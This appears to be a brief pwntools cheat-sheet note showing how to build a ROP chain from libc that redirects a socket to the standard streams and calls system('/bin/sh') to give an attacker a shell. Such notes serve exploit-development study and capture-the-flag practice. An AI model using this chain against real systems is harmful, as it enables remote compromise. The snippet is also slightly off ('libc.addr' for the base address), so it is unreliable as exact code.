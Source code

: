 PWNTOOLS
=
##Generate ROP
[pwnlib.rop.rop](http://docs.pwntools.com/en/stable/rop/rop.html?highlight=ROP)
'''python
libc=ELF('./libc.so.6')
#set baseaddress
libc.addr=libcbase
rop = ROP(libc, badchars="\n")
#redirect to socket
rop.dup2(SOCKFD, 0)
rop.dup2(SOCKFD, 1)
rop.dup2(SOCKFD, 2)
#call system func
rop.system(next(libc.search("/bin/sh")))
#call read
rop.read(SOCKFD,buf,len)
rop.call('read', [SOCKFD,buf,len])
'''
